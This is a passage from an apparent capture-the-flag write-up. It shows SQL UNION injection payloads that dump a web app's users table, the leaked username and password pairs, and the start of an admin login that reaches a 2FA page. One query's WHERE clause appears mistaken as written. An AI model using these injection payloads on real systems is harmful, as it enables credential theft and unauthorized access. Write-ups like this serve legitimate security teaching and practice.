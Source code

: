 And a `titles` table that contains `title_id` and `title`.

### Leak the users table

```sql
' UNION SELECT 1,Xx_US3RNAM3_xX FROM Xx_US3RS_xX --
' UNION SELECT 1,Xx_PASSW0RD_xX FROM Xx_US3RS_xX --
```

Doing both of these we indeed get 3 pairs of username and password, but nothing says that they are related so to make sure we are not mismatching them let's manually fetch them using the following, replacing `<username>` with the user.

```sql
' UNION SELECT 1,Xx_PASSW0RD_xX FROM Xx_US3RS_xX WHERE 1='<username>' --
```

From this we get:

```
Xx_ADMINISTRAT0R_xX:Mk$nj5KzAE4Rg#
journaliste_du_54:bQ3M^5RpjzVy^k
journaliste_du_57:K#fBZM!4A593aN
```

### Login as admin

Let's first try to login as the `Xx_ADMINISTRAT0R_xX` user. After doing so we note two things.

1. A session cookie was created, from the `/admin` error message we saw previously and the format of this cookie we can almost guess that the backed in Flask.

2. A 2FA page is presented to us.

<img src="assets/website_verification.jpg" alt="2FA Verification page" width="600px">
